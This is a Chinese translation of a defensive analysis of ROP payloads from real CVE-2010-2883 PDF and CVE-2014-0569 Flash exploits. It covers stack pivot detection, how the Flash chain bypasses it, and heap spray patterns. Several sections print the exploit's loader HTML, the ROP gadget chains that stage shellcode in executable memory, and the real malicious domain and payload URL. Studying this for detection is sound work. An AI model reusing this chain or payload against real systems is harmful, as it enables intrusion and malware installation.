

# 深入探讨 ROP 载荷分析

2014/11/28 10:03 | [cssembly](http://drops.wooyun.org/author/cssembly "由 cssembly 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 简介

* * *

Exploit-db 上看到的感觉还不错，所以就翻译一下，原文题目为《Deep Dive into ROP Payload Analysis》，作者 Sudeep Singh。

这篇文章的主要目的是介绍漏洞利用中的 ROP 载荷的分析技术，同时也深入分析一种 ROP 缓解技术 stack pivot 检测技术，该技术目前被用于防护软件中。

通过分析之前发现的两个攻击样本（CVE-2010-2883 和 CVE-2014-0569），对比了两个 ROP 载荷的复杂性和绕过 stack pivot 检测技术的能力对 ROP 载荷的详细分析将有助于我们更好的了解漏洞利用技术，开发出更有效的检测机制。

这篇文章主要针对漏洞分析人员以及对面向返回的编程（Return Oriented Programming）感兴趣的人。

## 0x01 场景

* * *

漏洞利用正变成越来越流行的领域，同时在类似浏览器、Adobe Reader、Flash Player、Microsoft Silverlight 、Java 等通用软件中也经常发现漏洞。由于漏洞利用通常是攻击中的第一个阶段，因此比较适宜在漏洞利用阶段对攻击做防护。

在互联网上可以找到有很多用于检测和阻止漏洞利用的方案和技术。这些检测机制通常聚焦于大多数漏洞的共同特点。例如：

1.  ROP：由于现在的操作系统都默认开启了 DEP，因此漏洞利用需要绕过 DEP 保护。ROP 是绕过 DEP 最常用的技术。然而，由于 ROP 的工作方式，因此可以有很多的特征可以检测它。我们将下文中深入分析其中的 stack pivot 检测技术。

2.  Heap Spray：为了获取稳定的利用，大多数漏洞利用将载荷喷射到进程的地址空间中。当漏洞被触发时，执行流被重定向到喷射在进程堆中的载荷导致漏洞被利用。然而，由于 Heap Spray 技术的广泛应用，也再一次提供用于检测它们的特征。

最常见的特征是用 Heap Spray 的模式，0x0c0c0c0c 是最为大家所熟知的。当然也有一些其他的模式也能够用于 Heap Spray。

## 0x02 利用缓解

* * *

这篇文章中，我们主要关注 ROP 载荷分析，因此将主要讨论 stack pivot 检测技术。

据对多数漏洞利用主要分为下面几个阶段：

1.  攻击者将载荷（Nopsled + ROP payload + shellcode）喷射到堆上
2.  触发软件的漏洞
3.  通过漏洞，攻击者控制了一些寄存器
4.  这些寄存器被设置指向 stack pivot gadget
5.  stack pivot gadget 将切换原始程序的堆栈为指向攻击者控制的堆中的数据，而新的堆栈中则包含我们的 ROP 载荷。
6.  stack pivot gadget 中的返回指令将开启 ROP 链的执行。

作为例子，通过一个 UAF（Use After Free）漏洞的结果，我们将得到如下的场景：

```
movedx, dwordptr ds:[ecx]  ; edx 为包含漏洞的 C++对象的虚表指针
pushecx
call dwordptr ds:[edx+0x10]  ; 调用攻击者控制的虚表中的虚函数 
```

因为我们控制了上述的程序执行流，所以我们能够将控制流重定向到下面的 stack pivot gadget：

xchgeax, esp retn

当漏洞被触发时，如果 eax 正指向攻击者控制的堆中的数据，通过上面的代码片段，eax 指向的堆空间将变成新的栈。

ROP 是非常好的技术，被广泛的用在现在漏洞攻击中。这也导致了很多针对这种利用技术的检测机制被设计出来。

其中一种技术就是 stack pivot 检测技术。

当 ROP 链执行时，攻击者的最终目标是将 shellcode 重新放置在可执行的内存区域以绕过 DEP 保护。为了做到这一点，攻击者将调用一些类似 VirtualAlloc 的 API 函数。这些被攻击者用于绕过 DEP 的 API 是有限的。

由于原始程序的堆栈被切换为指向攻击者控制的数据，因此栈指针不再指向栈限以内。

程序栈限的信息被存储在 TEB 中。

```
1:020> !teb
TEB at 7ffda000
ExceptionList: 0220f908
StackBase: 02210000
StackLimit: 02201000 
```

如果栈指针不满足下面的条件，我们认为这是一个 stack pivot：

if(esp>StackLimit&&esp<StackBase)

为了更好的理解这一点，我们看一个 PDF 的漏洞利用，CVE-2010-2883。

## 0x03 ROP 链分析

* * *

这篇文章中，我将介绍 ROP 链的分析。请注意，我们并不是分析漏洞的根本原因。我们主要是深入理解 ROP 载荷是如何工作的。

我将讨论两个例子。其中一个例子中，ROP 载荷可以被 stack pivot 检测所检测到，而另一个则可以绕过该检测。

我们可以通过下面两种方式分析 ROP：

1.  动态分析：可以通过两种方式进行

    a)已知的 ROP Gadget：某些情况下，可以通过静态分析找到 ROP gadgets。例如，对于恶意的 PDF 文件，可以通过对进行 Heap Spray 的 JavaScript 代码去混淆来定位 ROP gadgets。

    b)未知的 ROP Gadget：某些情况下，在漏洞利用代码中定位 ROP gadgets 并不容易。这有可能是因为高强度混淆的代码或者 ROP gadgets 将在漏洞利用过程中动态构建。

    第二种情况下，ROP gadgets 在执行过程中构建，因此我们需要采用其他技术来调试。

2.  静态分析：当能够找到 ROP gadgets 时，可以采用该技术 要分析 ROP 载荷，我们需要根据 ROP gadgets 找到汇编语言代码。这可以通过在适当的模块地址空间中手工查找每一个 ROP gadgets 来完成。但是这样比较麻烦。为了使这一过程更加高效，我写了一个 C 代码，它将自动的从模块的地址空间中抽取 ROP gadgets 对应的字节码，可以在附录一中找到这段代码。

当你把去混淆过的 JavaScript 中的 shellcode 写入一个文件后，你需要通过 IDA 来反汇编或者通过一个十六进制编辑器来观察 shellcode。通过这种方式，你可以确定这段 shellcode 是一段常规的 shellcode 还是 ROP shellcode。

作为例子，来看一个恶意的 pdf 文件，他的 MD5 值为 975d4c98a7ff531c26ab255447127ebb，他利用 CVE-2010-2883 的漏洞进行攻击。

在转储 shellcode 到文件中以后，通过十六进制编辑器打开文件，可以看到它不是一个常规的 shellcode。我已经标示出了其中一些 ROP gadgets：


通常情况下，所有的 ROP gadgets 将从同一个未被基址随机化的模块中选取。这种情况下，可以看到所有的 gadgets 都来自一个模块，它的基址是 0x07000000。通过 Windbg 打开 Adobe Reader，可以看到 BIB.dll 模块占用了 0x07000000 的地址。


因此，在这个例子中所有的 ROP gadgets 都是从这个模块中选择的。

通过我的代码，根据每一个 ROP gadget 来检查该模块的地址空间，查找相应的字节码，并记录到另一个文件中。

我的代码将区分 ROP gadgets 和 ROP gadgets 的参数。现在通过 IDA 加载这个文件，标记适当的节为代码和数据。


现在我们就能更高效的分析 ROP shellcode 了。 某些情况下，我们需要单步跟踪 ROP shellcode 来更好的理解他。这种情况下，我们就需要调试 ROP shellcode，可以通过在 ROP 链的第一个 ROP gadget 上设置断点来调试。

作为例子，我将采用之前的恶意 PDF 样本，该样本可以在 Adobe Reader 大于等于 9.0 并且小于等于 9.4.0 的版本中利用。

这个恶意的 PDF 包含多条 ROP 载荷，将根据 Adobe Reader 的版本来选取 ROP 载荷。我们现在就来看采用了 icucnv36.dll 中的 ROP gadgets 的 ROP shellcode。

我们通过 windbg 打开 Adobe Reader，可以按 g 来运行 Adobe Reader，观察它加载了更多的模块。

特别主要注意的是，这里 icucnv36.dll 还没有被 Adobe Reader 加载。如果我在第一个 ROP gadget 上设置断点，将不允许这样做并显示如下信息：


这是因为我们正在尝试在一个还没有加载的 dll 地址空间中设置断点。

通过如下命令，当模块加载时，将自动中断到调试器：

sxe ld icucnv36.dll

现在，运行 Adobe Reader 进程，打开恶意的 PDF 文件，很快 icucnv36.dll 被加载，同时自动中断到调试器。


现在就能够成功的在第一个 ROP gadget 上设置断点。


现在执行进程，很快第一个 ROP gadget 被执行了，中断到了调试器。当我们观察寄存器的内容，可以看到 esp 指向了 0x0c0c0c10。


通过 stack pivot gadget 攻击者能够成功的切换堆栈。

如果观察地址空间中的内容，在 0x0c0c0c0c 处可以看到整个 ROP shellcode。


这样就能够调试 ROP shellcode，在调试器中进行单步跟踪。

让我们看看这个恶意 PDF 文档如何因为 stack pivot 被检测到。如果我们进一步追踪 ROP 链，我们注意到它通过 0x4a80b692 处的 ROP gadget 调用了 API 函数 CreateFileA。


现在我们在 API 函数 CreateFileA()上。

如果检查 TEB 中的 StackBase 和 StackLimit 的值，可以看到 esp 在这个范围以外。如果安全软件在 CreateFileA()上设置了 API 钩子，这个漏洞利用将在 stack pivot 阶段被很容易的检测到。


## 0x04 Stack Pivot 检测绕过

* * *

我们现在来看最近刚发现的利用 CVE-2014-0569 漏洞的样本，它使用了可以绕过 stack pivot 检测的 ROP 载荷。这种 ROP 载荷之前并没有看到过。之前它只是一种概念性的证明，而现在已经被用于实际的漏洞利用中。

我在下面的地址处找到了该漏洞样本完整的网络流量的 PCAP 文件：

http://malware-traffic-analysis.net/2014/10/30/index2.html

正如下图看到的，该漏洞利用工具部署在 kethanlingtoro.eu 处。



下面的 HTML 代码用于在浏览器中加载恶意 swf 文件，触发在 Adobe Flash Player 插件中的漏洞。

```
<html>
<body>
<objectclassid="clsid:d27cdb6e-ae6d-11cf-96b8-444553540000"codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab"width="10"height="10"/><paramname="movie"value="Main.swf"/>
<paramname="allowFullScreen"value="false"/>
<paramname="allowScriptAccess"value="always"/>
<paramname="FlashVars" value="exec=3558584f737a7a6c415835233d57263d31585548553941347a6e42644c4c365a6b646a6b4c507a57557257236b394f354f"/>
<paramname="Play"value="true"/>
<embedtype="application/x-shockwaveflash"width="10"height="10"src="Main.swf" allowScriptAccess="always" FlashVars="exec=3558584f737a7a6c415835233d57263d31585548553941347a6e42644c4c365a6b646a6b4c507a57557257236b394f354f" Play="true" allowFullScreen="false"/>
</object>
</body>
</html>

```

请注意上面传递给 Flash 加载器的参数是采用 FlashVars。这对与漏洞利用是需要的，如果没有它，恶意的 swf 文件将导致奔溃。

在这个例子中，恶意的 swf 文件被高度的混淆，如下图所示，常用的 Flash Decompilers 也不能成功的反编译这些代码。因此通过静态分析来定位 ROP gadgets 并不容易。


通过查看反汇编后的 Flash 代码，可以看到在漏洞利用函数中它使用了一个 Sound 对象，同时调用了它的 toString()方法。采用 Sound 对象进行漏洞利用的技术在当前很流行。通过该漏洞，Sound 对象的虚函数表将被重写，而这将最终导致攻击者控制程序的执行流。

Sound 对象：


Sound 对象的 toString()方法被调用：


下面来看如何通过调试器来分析这个 ROP 载荷。

环境信息：

操作系统：Win 7 SP1 32-bit

Flash Player 版本：15.0.0.167

因为我们知道 Sound 对象的虚函数表将被攻击者控制，所以可以在调用 Sound 对象调用 toString()方法的地方设置断点来调试这个 ROP 载荷。

将 windbg 附加到 Internet Explorer 上。在加载恶意的 web 页面到浏览器之前，我们可以在从 C:\Windows\system32\Macromed\Flash\ 加载 Flash32_15_0_0_167.ocx 时设置模块加载断点。

sxe ld Flash32_15_0_0_167.ocx

现在我们加载 web 页面，这将中断到调试器。

由于该模块开启了基址随机化，因此调用 toString()方法的地址每次都会变动。我们首先找到这个地址：

```
1:021> u Flash32_15_0_0_167!IAEModule_IAEKernel_UnloadModule+0x11c185
Flash32_15_0_0_167!IAEModule_IAEKernel_UnloadModule+0x11c185:
5eef8945 ffd2       call edx
5eef8947 5e         pop esi
5eef8948 c20400 ret 4 
```

我们在 0x5eef8945 处设置断点。

我们运行该漏洞利用，它将中断到上述地址，如下：

```
1:021> g
Breakpoint 0 hit
eax=070ab000 ebx=0202edf0 ecx=06a92020 edx=5e8805bb esi=0697c020 
edi=0697c020
eip=5eef8945 esp=0202ed38 ebp=0202ed60 iopl=0   nv up ei pl nz na po nc
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00200202
Flash32_15_0_0_167!IAEModule_IAEKernel_UnloadModule+0x11c185:
5eef8945 ffd2 call edx {Flash32_15_0_0_167+0x205bb (5e8805bb)} 
```

如果我们查看该指令之前的反汇编代码，我们将看到在漏洞利用中，完整的 Sound 对象的虚函数表都被改写了，如下图：


```
5eef8940 8b01   mov eax,dword ptr [ecx]
5eef8942 8b5070     mov edx,dword ptr [eax+70h]
5eef8945 ffd2       call edx {Flash32_15_0_0_167+0x205bb (5e8805bb)}
ecx = Sound Object
eax = VTable of the Sound Object
[eax+0x70] = address of toString() method 
```

同时我们可以看到，在虚函数表中所有的虚函数都被重写为 0x5e861193 (retn 指令)。toString()方法的虚函数指针已经被改写为 0x5e8805bb。

```
1:021> dd eax
081ab000 5e861193 5e861193 5e861193 5e861193
081ab010 5e861193 5e861193 5e861193 5e861193
081ab020 5e861193 5e861193 5e861193 5e861193
081ab030 5e861193 5e861193 5e861193 5e861193
081ab040 5e861193 5e861193 5e861193 5e861193
081ab050 5e861193 5e861193 5e861193 5e861193
081ab060 5e861193 5e861193 5e861193 5e861192
081ab070 5e8805bb 5e8c1478 5e8c1478 5e8c1478 
```

我们查看一下 0x5e8805bb 处的反汇编代码：

```
1:021> u 5e8805bb
Flash32_15_0_0_167+0x205bb:
5e8805bb 94     xchg eax,esp
5e8805bc c3     ret 
```


这就是 stack pivot gadget，这意味着攻击者控制着 eax 的值以及它指向的数据。让我们查看一下：

```
1:021> dd eax
070ab000 5e861193 5e861193 5e861193 5e861193
070ab010 5e861193 5e861193 5e861193 5e861193
070ab020 5e861193 5e861193 5e861193 5e861193
070ab030 5e861193 5e861193 5e861193 5e861193
070ab040 5e861193 5e861193 5e861193 5e861193
070ab050 5e861193 5e861193 5e861193 5e861193
070ab060 5e861193 5e861193 5e861193 5e861192
070ab070 5e8805bb 5e8c1478 5e8c1478 5e8c1478 
```


在我们的 ROP 载荷中，所有的 gadgets 都来自于 Flash32_15_0_0_167.ocx 这个模块。

同时，需要注意的是 stack pivot 后，原始的 esp 的值将存储在 eax 中。

在 ROP 链中可以看到很多的 gadgets 指向 0x5e861193，正如下面所看到的的，他们都是返回指令。

```
1:021> u 5e861193
Flash32_15_0_0_167+0x1193:
5e861193 c3  ret 
```

上面一系列返回指令执行之后，我们可以看到

```
1:021> u eip
Flash32_15_0_0_167+0x1192:
5e861192 59  pop ecx
5e861193 c3  ret 
```


这个 ROP gadget 将 ecx 的值设置为 0x5e8805bb

```
1:021> dd esp
070ab070 5e8805bb 5e8c1478 5e8c1478 5e8c1478
070ab080 5e8c1478 5e861192 5e8e2e45 5e89a4ca 
```

接下来的 ROP gadget 出现了四次。

```
1:021> u eip
Flash32_15_0_0_167+0x61478:
5e8c1478 48     dec eax
5e8c1479 c3     ret 
```


正如我们之前提到的，在 stack pivot 执行前的原始 esp 的值已经被存储在了 eax 中。因此，eax 减小四次，就是在原始栈上开辟出一个四字节。

```
1:021> u eip
Flash32_15_0_0_167+0x1192:
5e861192 59     pop ecx
5e861193 c3 ret 
```

在当前栈上包含下面的数据:

```
1:021> dd esp
070ab088 5e8e2e45 5e89a4ca 41414141 5e8c1478
070ab098 5e8c1478 5e8c1478 5e8c1478 5e861192 
```

通过上面的 ROP gadget，ecx 的值被设置为 0x5e8e2e45，然后

```
1:021> u eip
Flash32_15_0_0_167+0x3a4ca:
5e89a4ca 8908   mov  dword ptr [eax],ecx
5e89a4cc 5d         pop ebp
5e89a4cd c3         ret 
```

这将存储 ecx 的值在原始堆栈上（esp-4 处）


下一个 ROP gadget 将 0x41414141 弹出到 ebp 中，这只是为了填充用。因为我们的 ROP gadget 在返回之前包含了一条 pop ebp 指令。 上面这些 ROP gadgets 将被多次执行。我们可以总结如下：

```
Gadget 1:
dec eax;
retn 
```

这个 ROP gadget 执行四次可以再原始堆栈上开辟 1 个 DWORD。

```
Gadget 2:
pop ecx;
retn 
```

设置 ecx 寄存器的值。

```
Gadget 3:
mov dword ptr [eax], ecx;
pop ebp;
retn 
```

将 ecx 的值移入原始堆栈中。

也就是说，ROP 载荷通过攻击者的缓冲区中的数据来精心设置原始堆栈中的数据。

继续跟踪 ROP 载荷，最终发现 stack pivot 将再次被执行。

如果现在查看原始堆栈，可以看到堆栈被精心布置，stack pivot 将重定向控制流到 kernel32!VirtualAllocStub()。


在堆栈上精心布置的 VirtualAlloc 的参数如下：


这意味着，ROP 载荷将分配具有 PAGE_EXECUTE_READWRITE (0x40) 和 MEM_COMMIT (0x1000)属性的 0x1000 字节的内存空间。

我们查看一下 TEB 中的 StackBase 和 StackLimit 的值。

如下所示，栈指针在 StackBase 和 StackLimit 的范围以内，因此 stack pivot 缓解措施将不能阻止该漏洞利用。


进一步分析，在调用 VirtualAllocStub()的点，堆栈布局如下：

```
1:020> dd esp
0220ec50 5e861193 00000000 00001000 00001000
0220ec60 00000040 5e861192 c30c4889 5e89a4ca
0220ec70 41414141 5e861192 9090a5f3 5e8e2e45
0220ec80 5e861192 c3084889 5e89a4ca 41414141
0220ec90 5e861192 90909090 5e8e2e45 5e861192
0220eca0 c3044889 5e89a4ca 41414141 5e861192
0220ecb0 9090ee87 5e8e2e45 5e861192 10788d60
0220ecc0 5e89a4ca 070514b8 5e861192 00000143 
```

在返回地址 0x5e861193 处设置断点，新分配的内存地址 0x1c100000 存储在 eax 中。 接下来的 ROP 载荷也很有趣：

```
1:020> dd esp
0220ec64 5e861192 c30c4889 5e89a4ca 41414141
0220ec74 5e861192 9090a5f3 5e8e2e45 5e861192
0220ec84 c3084889 5e89a4ca 41414141 5e861192
0220ec94 90909090 5e8e2e45 5e861192 c3044889
0220eca4 5e89a4ca 41414141 5e861192 9090ee87
0220ecb4 5e8e2e45 5e861192 10788d60 5e89a4ca
0220ecc4 070514b8 5e861192 00000143 5e8e2e45
0220ecd4 5eef8947 068e2bf8 5eedecc1 06a50021 
```

我已经将其总结如下：

```
pop ecx/retn ; set ecx to 0xc30c4889
mov dword ptr [eax], ecx/pop ebp/retn ; move ecx to newly allocated memory (pointed by eax)
pop ecx/retn ; set ecx to 0x9090a5f3
push eax/retn ; redirect execution to newly allocated memory
mov dword ptr [eax+0xc], ecx/ retn ; mov ecx to newly allocated memory (screenshot 9)
pop ecx/retn ; set ecx to 0xc3084889
mov dword ptr [eax], ecx/pop ebp/retn ; move ecx to newly allocated memory (pointed by eax)
pop ecx/retn ; set ecx to 0x90909090
push eax/retn ; redirect execution to newly allocated memory
mov dword ptr [eax+0x8], ecx/retn ; move ecx to newly allocated memory (pointed by eax)
pop ecx/retn ; set ecx to 0xc3044889
mov dword ptr [eax], ecx/pop ebp/retn ; move ecx to newly allocated memory (pointed by eax)
pop ecx/retn ; set ecx to 0x9090ee87
push eax/retn ; redirect execution to newly allocated memory
mov dword ptr [eax+0x4], ecx/retn; move ecx to newly allocated memory (pointed by eax)
pop ecx/retn ; set ecx to 0x10788d60
mov dword ptr [eax], ecx/retn ;
pop ecx/retn ; set ecx to 0x143
push eax/retn ; now we are at the shellcode 
```


这部分 ROP 载荷将从主 shellcode 中拷贝 0x143 个 DWORD 到新分配的内存空间中。


现在就是第二阶段的 shellcode 了。


进一步对代码进行跟踪，将看到动态查找 kernelbase.dll 基址以及计算 VirtualProtect 函数地址。


这将修改 0x01c10060 处 0x4b3 字节大小内存区域的保护属性。然后调用 GetTempPathA 构建路径 C:\Users\n3on\AppData\Local\Temp\stuprt.exe。


通过 LoadLibraryA 加载 wininet.dll 库。


然后可以看到通过调用 InternetOpenUrlA 从 http://kethanlingtoro.eu/xs3884y132186/lofla1.php 下载载荷。

我们可以确定这和 PCAP 文件中是相同的 URL，如下所示：


载荷将被存储在 C:\Users\n3on\AppData\Local\Temp\stuprt.exe，并被执行。

通过这种方式，我们能够通过调试器分析 ROP 载荷以及 shellcode。

下面来看另一种分析这种载荷的方法。

我们知道一旦中断到 Sound 对象调用 toString()方法的 call 指令上，它将重定向控制流到 stack pivot gadget。这种情况下，攻击者可以控制 eax 的值以及这个位置上的数据。

我们可以从内存中转储 ROP 载荷和 shellcode 到文件中。正如下面看到的，可以使用 writemem 命令从内存中转储大约 0x1500 字节的 shellcode 到 rop.txt 文件中。


接下来，写一个 C 程序，打印 rop.txt 中的 DWORD 列表。

在转储 ROP 载荷的同时，保存 Flash32_15_0_0_167.ocx 的基址也很重要（因为由于基址随机化的开启，我们需要基地址来计算 ROP gadgets 的相对虚拟地址）。

通过之前写的 C 代码，可以根据 rop.txt 中的 ROP gadgets 找到所有的字节码。

完整的绕过 stack pivot 检测的 ROP 链在附录 2 中。

## 0x05 Heap Spray 模式

* * *

由于 ROP 是和 Heap Spray 技术一起使用的，因此讨论一下这两个漏洞利用中的 heap spray 模式的不同。在第一个例子中，当我们在调试器中，中断到恶意 PDF 的第一个 ROP gadget 时，我们进行一下堆分析。

CVE-2010-2883 (恶意 PDF)

!heap -stat


可以看到在 00390000 处分配的堆空间具有最大的提交字节。让我们进行进一步的分析：

0:000> !heap -stat -h 00390000


正如所看到的，它包含了 0x1f0 个大小为 0xfefc 字节大小的块。这是一种非常固定的分配模式，也是一张很好地识别 heap spray 的标记。 进一步枚举所有大小为 0xfefc 字节的堆块

```
0:000> !heap -flt s fefec
_HEAP @ 150000
_HEAP @ 250000
_HEAP @ 260000 
_HEAP @ 360000
_HEAP @ 390000
HEAP_ENTRY Size Prev Flags UserPtr UserSize - state
invalid allocation size, possible heap corruption
039c0018 1fdfd 0000 [0b]  039c0020  fefec - (busy VirtualAlloc) 
```

如果转储处 0x039c0020 处的内存，可以看到 NOP 模式：

```
0:000> dd 039c0020
039c0020 0c0c0c0c 0c0c0c0c 0c0c0c0c 0c0c0c0c
039c0030 0c0c0c0c 0c0c0c0c 0c0c0c0c 0c0c0c0c
039c0040 0c0c0c0c 0c0c0c0c 0c0c0c0c 0c0c0c0c
039c0050 0c0c0c0c 0c0c0c0c 0c0c0c0c 0c0c0c0c
039c0060 0c0c0c0c 0c0c0c0c 0c0c0c0c 0c0c0c0c
039c0070 0c0c0c0c 0c0c0c0c 0c0c0c0c 0c0c0c0c
039c0080 0c0c0c0c 0c0c0c0c 0c0c0c0c 0c0c0c0c
039c0090 0c0c0c0c 0c0c0c0c 0c0c0c0c 0c0c0c0c 
```

这种模式是安全软件识别 heap spray 的一个好的标志，例如 EMET 检测 heap spray。

CVE-2014-0569 (恶意 SWF)

如果检查第二个例子中的堆块分配，将发现没有任何固定的模式。

当中断到 stack pivot gadget 时，进行堆分析：

```
0:000> !heap -stat
_HEAP 00900000
Segments 00000001
Reserved bytes     00100000
Committed bytes   00100000
VirtAllocBlocks    00000000
VirtAlloc bytes   00000000
_HEAP 00150000
Segments 00000001
Reserved bytes     00100000
Committed bytes   00082000
VirtAllocBlocks    00000000
VirtAlloc bytes   00000000 
```

上面的两块包含了最大数量的提交字节。

对于 0x00900000 处的堆

```
0:000> !heap -stat -h 00900000
heap @ 00900000
group-by: TOTSIZE max-display: 20
size #blocks total ( %) (percent of total busy bytes) 
```

windbg 没有给出该堆的统计信息。检查另一个堆。

```
0:000> !heap -stat -h 00150000
heap @ 00150000
group-by: TOTSIZE max-display: 20
size #blocks total ( %) (percent of total busy bytes)
8000 1 - 8000 (7.52)
20 31d - 63a0 (5.85)
57f0 1 - 57f0 (5.17)
4ffc 1 - 4ffc (4.70)
614 c - 48f0 (4.28)
3980 1 - 3980 (3.38)
388 10 - 3880 (3.32)
2a4 13 - 322c (2.95)
800 6 - 3000 (2.82)
580 8 - 2c00 (2.58) 
```


这里并没有看到固定的模式，也就是说在第二个漏洞利用中，类似 EMET 的安全软件对于 heap spray 的检测方法将无法工作。

因为在第二个漏洞利用中，在内存空间中喷射了 AS3 Flash Vector 对象，可以查看这些对象：

03f4d000 000003fe 03162000 0beedead 0000027f ..... .......... 03f4f000 000003fe 03162000 0beedead 00000280 ..... .......... 03f51000 000003fe 03162000 0beedead 00000281 ..... .......... 03f53000 000003fe 03162000 0beedead 00000282 ..... .......... 03f55000 000003fe 03162000 0beedead 00000283 ..... .......... 03f57000 000003fe 03162000 0beedead 00000284 ..... .......... 03f59000 000003fe 03162000 0beedead 00000285 ..... .......... 03f5b000 000003fe 03162000 0beedead 00000286 ..... .......... 03f5d000 000003fe 03162000 0beedead 00000287 ..... ..........

其中 0x3fe 是 Vector 对象的长度。

大多数最近的漏洞利用的流程如下：

1.  恶意 SWF 文件通过使用 ActionScript 代码喷射 Flash Vector 对象

2.  触发漏洞，这将允许修改内存地址空间中的值。

在 CVE-2014-0322 中, 可以得到一个 UAF 崩溃，在 inc dword ptr ds:[eax+0x10]处。

如果攻击者可以将 eax+0x10 指向喷射的 Flash Vector 对象的长度域，就能增加这个长度。

1.  通过增加 Vector 对象的长度，就能够增加一个新的元素到 Vector 对象数组中。由于边界检查是在 ActionScript 代码中完成的，因此新的加入 Vector 对象中元素将改写内存中下一个 Vector 对象的长度。因此，这个漏洞利用将设置长度为一个大的值来获取程序地址空间任意位置访问的能力。

在所有这些漏洞利用中，控制流程都有一些共同的属性：

1.  Vector 对象的长度被设置为 0x3fe。

2.  由于 Flash AS3 Vector 对象在内存中的分配方式，他们按照 0x1000 字节边界对齐。

3.  都通过破坏 Sound 对象的虚函数表，然后调用 toString()方法来获取程序控制流。

基于此，检测这种 Vector 对象的喷射是很重要的。

## 0x06 结论

* * *

可以看到由于新的漏洞利用检测技术被安全软件所使用，漏洞利用的过程也变得更加复杂。显然用于攻击的漏洞利用也注意到了这些检测技术并尝试绕过他们。通过阅读这篇文章，你将能够深入的分析漏洞利用中的 ROP 载荷。

## 0x07 附录

* * *

这里有两个附录的文件用来参考

[附录](http://drops.wooyun.org/wp-content/uploads/2014/11/%E9%99%84%E5%BD%95.zip)

版权声明：未经授权禁止转载 [cssembly](http://drops.wooyun.org/author/cssembly "由 cssembly 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Blind Return Oriented Programming (BROP) Attack – 攻击原理](http://drops.wooyun.org/tips/3071)
*   [利用 ROP 绕过 DEP（Defeating DEP with ROP）调试笔记](http://drops.wooyun.org/papers/3602)
*   [D-LinkDSP-W215 智能插座远程命令执行](http://drops.wooyun.org/papers/2015)
*   [漏扫工具 AWVS 命令执行](http://drops.wooyun.org/papers/1501)
*   [cve-2014-0569 漏洞利用分析](http://drops.wooyun.org/papers/4024)
*   [Linux PAM&&PAM;后门](http://drops.wooyun.org/tips/1288)